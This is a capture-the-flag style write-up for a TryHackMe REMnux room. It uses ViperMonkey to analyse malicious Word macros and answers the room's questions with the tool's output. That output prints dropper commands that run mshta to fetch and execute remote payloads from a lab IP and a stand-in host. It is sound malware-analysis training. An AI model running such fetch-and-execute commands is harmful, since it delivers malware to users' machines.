 | ![REMnux](../../_static/images/remnux-room-banner.png)
|:--:|
| [THM Room: REMnux](https://tryhackme.com/room/malremnuxv2) |

# Analysing malicious Microsoft Office macros

Malware infection via malicious macros (or scripts within Microsoft Office products such as Word and Excel) are some 
of the most successful attacks to date.

For example, current APT campaigns such as Emotet, QuickBot infect users by sending seemingly legitimate documents 
attached to emails i.e. an invoice for business. However, once opened, execute malicious code without the user knowing. 
This malicious code is often used in what’s known as a “dropper attack”, where additional malicious programs are 
downloaded onto the host.

To analyze macros we can use [ViperMonkey](https://github.com/decalage2/ViperMonkey), a parser engine that is capable 
of analysing visual basic macros without executing.

## Questions

**What is the name of the Macro for `DefinitelyALegitInvoice.doc`**

```text
Recorded Actions:
+----------------------+---------------------------+----------------+
| Action               | Parameters                | Description    |
+----------------------+---------------------------+----------------+
| Found Heuristic      | DefoLegit                 |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://10.0. | Shell function |
|                      | 0.10:4444/MyDropper.exe   |                |
| Found Heuristic      | DefoLegit                 |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://10.0. | Shell function |
|                      | 0.10:4444/MyDropper.exe   |                |
+----------------------+---------------------------+----------------+INFO     Found 7 possible IOCs. Stripping duplicates...
VBA Builtins Called: ['Shell']Finished analyzing DefinitelyALegitInvoice.doc .
```

**What is the URL the Macro in `Taxes2020.doc` would try to launch?**

```text
Recorded Actions:
+----------------------+---------------------------+----------------+
| Action               | Parameters                | Description    |
+----------------------+---------------------------+----------------+
| Found Heuristic      | X544FE                    |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://tryha | Shell function |
|                      | ckme.com/notac2cserver.sh |                |
| Found Heuristic      | X544FE                    |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://tryha | Shell function |
|                      | ckme.com/notac2cserver.sh |                |
+----------------------+---------------------------+----------------+
```